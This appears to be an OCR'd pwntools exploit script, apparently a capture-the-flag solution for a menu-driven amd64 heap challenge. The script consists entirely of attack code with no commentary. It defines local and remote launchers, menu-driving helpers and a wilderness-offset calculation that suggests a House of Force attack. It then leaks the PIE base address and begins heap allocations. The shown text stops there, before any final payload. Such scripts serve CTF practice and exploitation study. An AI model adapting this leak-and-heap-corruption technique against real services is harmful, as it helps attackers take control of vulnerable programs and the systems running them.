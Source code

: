 ```py
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

def init(size, name):
    io.recvuntil('> ')
    io.sendline(str(size))
    io.recvuntil('> ')
    io.sendline(name)

def getleak():
    io.recvuntil('> ')
    io.sendline('3')

def choose(size, data):
    io.recvuntil('> ')
    io.sendline('1')
    io.recvuntil('> ')
    io.sendline(str(size))
    io.recvuntil('> ')
    io.sendline(data)

def getdrink(member, fuck):
    io.recvuntil('> ')
    io.sendline('2')
    io.recvuntil('> ')
    io.sendline(str(member))
    io.recvuntil('> ')
    io.sendline(str(fuck))

def return_size(target, wilderness):
    return target - wilderness - 0x10

init(0, 'H'*0x17)
io.sendline()
getleak()
io.recvuntil('You sang ')
pie = int(io.recvn(14), 0) - 0xf08
log.info('Pie leak {}'.format(hex(pie)))
choose(0x18, 'K'*0x17)
io.sendline()
```
